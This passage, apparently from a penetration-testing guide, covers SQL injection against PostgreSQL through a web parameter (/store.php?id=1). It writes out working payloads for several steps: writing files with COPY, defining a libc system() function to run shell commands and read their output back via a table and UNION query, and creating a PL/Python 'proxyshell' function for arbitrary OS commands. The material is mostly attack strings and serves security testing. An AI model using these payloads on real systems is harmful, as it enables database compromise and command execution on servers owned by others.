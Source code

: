 `/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Shell Injection

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl.

##### Dynamic Library

Until PostgreSQL 8.1, it was possible to add a custom function linked with `libc`:

- `CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`

Since `system` returns an `int` how we can fetch results from `system` stdout?

Here's a little trick:

- create a `stdout` table
`CREATE TABLE stdout(id serial, system_out text)`

- executing a shell command redirecting its `stdout`
`SELECT system('uname -a > /tmp/test')`

- use a `COPY` statements to push output of previous command in `stdout` table
`COPY stdout(system_out) FROM '/tmp/test*'`

- retrieve output from `stdout`
`SELECT system_out FROM stdout`

###### Example

```sql
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) --
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --
/store.php?id=1; SELECT system('uname -a > /tmp/test') --
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```

##### Plpython

PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict what user can do. It's not installed by default and can be enabled on a given database by `CREATELANG`

- Check if PL/Python has been enabled on a database:
`SELECT count(*) FROM pg_language WHERE lanname='plpythonu'`

- If not, try to enable:
`CREATE LANGUAGE plpythonu`

- If either of the above succeeded, create a proxy shell function:
`CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu`

- Have fun with:
`SELECT proxyshell(os command);`
